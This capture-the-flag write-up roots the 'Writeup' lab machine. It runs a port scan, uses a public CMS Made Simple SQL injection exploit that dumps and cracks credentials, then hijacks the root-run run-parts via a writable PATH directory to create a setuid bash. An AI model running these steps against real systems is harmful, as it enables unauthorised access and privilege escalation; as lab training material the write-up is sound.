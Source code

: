 1,Recon
port scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
| http-robots.txt: 1 disallowed entry 
|_/writeup/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Page check
![](images/Pasted%20image%2020241218025224.png)
Because of Donkey DoS protection, we can not use ffuf or gobuster to enumerate the web-contents.

From the robots.txt, we found the hidden web-content `/writeup`.
![](images/Pasted%20image%2020241218025332.png)
From the source code, we can find the valid version of the cms `CMS Made Simple`
`<!-- cms_stylesheet error: No stylesheets matched the criteria specified -->`

In this place, we do not know the extract version of this cms
so, I would just search the exploits about that
`CMS Made Simple < 2.2.10 - SQL Injection            | php/webapps/46635.py`
In github, there is a python3 version of exploit script
`https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3.git`
```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

2, shell as root
There is no `sudo` here, so we can not check `sudo -l`
So we need to check the process in the background, I would upload the `pspy64`
I decided to leave that running and ssh in again to keep looking. When I did that, I saw my ssh connection in pspy:
```
2019/06/17 01:37:09 CMD: UID=0    PID=3253   | sshd: [accepted]
2019/06/17 01:37:09 CMD: UID=0    PID=3254   | sshd: [accepted]  
2019/06/17 01:37:15 CMD: UID=0    PID=3255   | sshd: jkr [priv]  
2019/06/17 01:37:15 CMD: UID=0    PID=3256   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/06/17 01:37:16 CMD: UID=0    PID=3257   | run-parts --lsbsysinit /etc/update-motd.d
2019/06/17 01:37:16 CMD: UID=0    PID=3258   | /bin/sh /etc/update-motd.d/10-uname
2019/06/17 01:37:16 CMD: UID=0    PID=3259   | sshd: jkr [priv]  
2019/06/17 01:37:16 CMD: UID=1000 PID=3260   | -bash 
2019/06/17 01:37:16 CMD: UID=1000 PID=3261   | -bash 
2019/06/17 01:37:16 CMD: UID=1000 PID=3262   | -bash 
2019/06/17 01:37:16 CMD: UID=1000 PID=3263   | -bash 
2019/06/17 01:37:16 CMD: UID=1000 PID=3264   | -bash 
```

When a user logs in, root runs sh, which runs /usr/bin/env, which provides a specific path and runs run-parts on the update-motd.d folder. I’ll immediately notice that the $PATH includes at the front the two folders I can write to:
```
ls -ld /usr/local/bin/ /usr/local/sbin/
drwx-wsr-x 2 root staff 20480 Apr 19 04:11 /usr/local/bin/
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 /usr/local/sbin/
```

And there is no absolute path of `run-parts`, so we can just write our own `run-parts` in the `/usr/local/bin/` or `/usr/local/sbin`

I will write a script to /usr/local/bin/run-parts, make sure it’s executable, and then ssh in again:
```
jkr@writeup:~$ echo -e '#!/bin/bash\n\ncp /bin/bash /bin/wither\nchmod u+s /bin/wither' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
jkr@writeup:~$ cat /usr/local/bin/run-parts
#!/bin/bash

cp /bin/bash /bin/wither
chmod u+s /bin/wither
```

Then just restart the ssh
`/bin/wither -p` , we can get the root shell.
